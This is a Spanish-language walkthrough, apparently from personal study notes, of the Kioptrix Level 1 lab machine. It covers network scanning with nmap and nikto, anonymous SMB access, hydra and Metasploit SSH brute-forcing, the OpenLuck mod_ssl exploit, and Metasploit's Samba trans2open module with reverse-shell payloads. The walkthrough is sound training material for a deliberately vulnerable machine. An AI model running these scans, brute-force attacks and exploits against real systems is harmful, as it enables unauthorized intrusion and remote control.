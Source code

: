 #  Kioptrix Level 1 ❮❯

## Summary

- IP -> Random 
- Ports -> TCP (22,80,111,139,443), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 2.9p2
    - 80 -> Apache httpd 1.3.20 

## Recon
### Scanning network
❯ **ifconfig** Para ver nuestra interface y nuestra IP
❯ **arp-scan -l** Para escanear la nuestra red y ver dispositivos estan conectados (l=ele)
❯ **arp-scan -I ens33 --localhost** Para escanear nuestra interface y ver los dispostivos de la red (I=i mayuscula)
❯ **netdiscover -r 192.168.68.0/24** Descubriremos las maquinas utilizando ARP (r=range)

### Scanning with Nmap
❯ **nmap --help** Nos muestra las opciones de Nmap
❯ **nmap -T4 -p- -A 192.168.68.112** Escanearemos los puertos (T4=velocidad, p=Todos los puertos, A=Version, SO, finger printing, etc... all) y agregamos la IP de la victima (T4 es para VH, HTB ya que no es detectado, pero va lento)

Podemos ir mirando lo que hay en el puerto 80 y 443 de ka pagina web. 

Ahora podemos usar la herramienta de Nikto para el escaneo de vulnerabilidades web
❯ **nikto -h <IP.ADDRESS>** Asi podemos empezar el escaneo de vulnerabilidades web (h=host, IP.address=http://)

### Enumeration HTTP y HTTPS
- 80/443 - Apache - Default WebPage -  PHP Potencial ataque
- Error 404 - Information Disclosure - Cuando nos sale un error en un enlace y podemos adjuntar la captura de pantalla
❯ **nikto -h <IP.ADDRESS>** Asi podemos empezar el escaneo de vulnerabilidades web (h=host, IP.address=http://)
	Podemos hacer un archivo en donde podemos colocar el resultado de Nikto
❯ **dirbuster&** Para enumerar directorios, Asi abrimos la  interface del programa

### Enumerating SMB
Podemos usar metasploit para Enumerar el SMB
 - **msfconsole** Para iniciar metaesploit
	❯ **search smb** En este caso buscaremos exploits de SMB, podemos encontrar:
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
	
	❯ **use 60** Para usar el modulo, lo podremos hacer con la ruta o con el numero 
	❯ **info** Mirar la informacion del modulo
	❯ **options** Para ver las opciones del modulo y ver que necesitamos colocar para que funcione correctamente
	❯ **set RHOSTS 192.168.68.112** Colocamos la IP target en el modulo
	❯ **run** Para ejecutar el exploit

Nos muestra que en el purto 139 tenemos una version de Unix (Samba 2.2.1a)

O podemos usar el siguiente comando:

❯  **smbclient -L \\\\\\\\192.168.68.112\\\\** Tendremos acceso anonimo al SMB y le damos enter ya que no hay passwd, ahi descubrimos un usuario ADMIN$ e IPC$
❯  **smbclient \\\\\\\\192.168.68.112\\\\ADMIN$** Ahora colocamos el usuario y le damos enter, pero en esta ocasion si se necesita una passwd
❯  **smbclient \\\\\\\\192.168.68.112\\\\IPC$** Colocamos al segundo usuario y sin necesidad de passwd podemos ingresar al SMB
	❯  **help** Miramos la ayuda y los comandos que podemos ejecutar en el SMB 
	❯  **ls** Para listar lo que hay en servidor
	❯  **exit** Para salir del SMB

### Researching Potential Vulnerabilities
- 80/443 - Apache 1.3.20 - Default WebPage -  PHP Potencial ataque
- Error 404 - Information Disclosure - Cuando nos sale un error en un enlace y podemos adjuntar la captura de pantalla
- Information Disclosure - 404 error - Salio de la pagina Web
- Information Disclosure - server headers disclose version information - Salio de la pagina Web
- mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow OSVDB-756 - Salio de Nikto
- SMB Samba - Unix Samba(samba 2.2.1a)
- Webalizer version 2.01 
- Open SSH 2.9p2

Buscamos en Google **mod_ssl/2.8.4 exploit (Puerto 80/443)** esto por la informacion que habiamos encontrado en el informe de Nikto
https://www.exploit-db.com/exploits/764
https://github.com/heltonWernik/OpenLuck

Buscaremos en Google para **Samba 2.2.1a (SMB Puerto 139)**
https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/ En donde te guia a usar Metasploit
https://www.exploit-db.com/exploits/7
https://www.exploit-db.com/exploits/10 Remote Code Execution

Tambien podemos usar 
❯  **searchsploit samba 2.2.1a** Para ver en la base de datos de Searchsploit que, pero en este caso debes de no ser tan especifico **Samba 2.2**
❯  **searchsploit mod ssl 2** Nos mostrara diferentes exploits de mod ssl 

## User

## Root
Tambien podemos hacer ataques de fuerza bruta al puerto SSH 2.9p2
❯ **hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.68.112:22 -t 4 -V** Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

Tambien podemos usar Metasploit para explotar el SSH
❯ **msfconsole** 
	❯ **search ssh**
	❯ **use 17** Usaremos el que dice SSH_login
	❯ **options**
	❯ **set username root** Colocaremos el usuario de root
	❯ **set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt** Colocamos la ruta del diccionario 
	❯ **set rhosts 192.168.68.112** Colocamos la IP del target
	❯ **set threads 10** Para que vaya mas rapido al momento de mandar las solicitudes
	❯ **set verbose true** Para ver los log que van saliendo al momento de ejecutar el exploit
	❯ **true**
	❯ **run** Ejecutamos el exploit


Forma manual de hacernos Root
❯ **./open 0x6b 192.168.68.112 -c 40** Este nos ayudara a entrar por Apache en la version 1.3.20
* Primero corremos el exploit sin nada para ver las opciones y ahi ver que version de Apache tendremos que escoger (0x6b)
* IP -> Es la de la maquina victima 
* c -> Numero de conexiones entre 40 - 50


Forma Automatica que nos da Root 
En este caso utilizaremos Metasploit para poder entrar 
❯ **msfconsole** 
	❯ **search trans2open**
	❯ **use 1**
	❯ **options**
	❯ **set RHOST 192.168.68.112**
	❯ **run o exploit**

Miramos en options que esta ejecutado un **staged payload** ya que tenemos un **linux/x86/meterpreter/reverse_tcp**
Si no funciona podriamos hacer lo siguiente y buscaremos un **Non-staged payload**
❯ **set payload linux/x86/** Antes de completar el payload, podemos darle doble TAB para ver las opciones y los demas Payloads
❯ **set payload linux/x86/shell_reverse_tcp** 
❯ **options** 
❯ **run** Ejecutamos 


